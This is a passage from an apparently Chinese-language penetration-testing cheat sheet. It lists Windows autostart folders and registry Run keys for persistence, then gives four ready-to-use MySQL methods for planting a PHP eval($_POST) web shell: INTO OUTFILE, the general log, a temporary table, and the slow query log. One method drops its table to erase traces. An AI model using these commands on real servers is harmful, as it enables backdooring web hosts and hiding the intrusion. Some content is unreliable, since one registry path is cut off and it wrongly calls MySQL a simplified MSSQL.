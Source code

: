 2，开始菜单所有用户启动文件夹--

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

3，注册表当前用户开机启动项目录--

```
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

4，注册表所有用户开机启动项目录--

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Ru
```



#### 写shell

下面三种写shell的前提是

- secure_file_priv不为NULL且不限定一个目录（如/var/lib/mysql-files）
- 当前账户拥有读写权限

查询方式在UDF中有

1. **直接写shell**

   ```
   select '<?php eval($_POST["pwd"]); ?>' into outfile 'C:/phpStudy_pro/WWW/shell.php';
   ```

2. **日志写shell**

   - 先查看日志文件：`SHOW VARIABLES LIKE 'general%';`

   - 若为开启则开启记录：`set global general_log = "ON";`
   - 更改日志文件路径：`set global general_log_file='C:\\xampp\\htdocs\\tieuhoc\\b.php'`
   - 往日志里写一句话木马：`select '<?php @eval($_POST[cmd]);?>';`

3. **新建表写shell**

   - 建表：`CREATE TABLE test( id text(200) not null);`  
   - 插入一句话木马语句：`INSERT INTO test (id) VALUES('<?php @eval($_POST[cmd]);?>');`   
   - 输出文件：`SELECT id FROM test INTO OUTFILE 'C:\\xampp\\htdocs\\tieuhoc\\e.php';`
   - 删除表来清除记录：`DROP TABLE IF EXISTS test;`

4. **慢查询写shell**

   - 查询属性：`show variables like '%slow%'`
   - 开启记录：`set global slow_query_log=on;`
   - 修改记录位置：`set global slow_query_log_file='C:\\xampp\\htdocs\\tieuhoc\\c.php'`
   - 往日志里写一句话木马：`select '<?php @eval($_POST[cmd]);?>' or sleep(10);`



### mssql

ms SQL是指微软的SQLServer数据库服务器，MySQL可以说是MSSQL的简化版本。
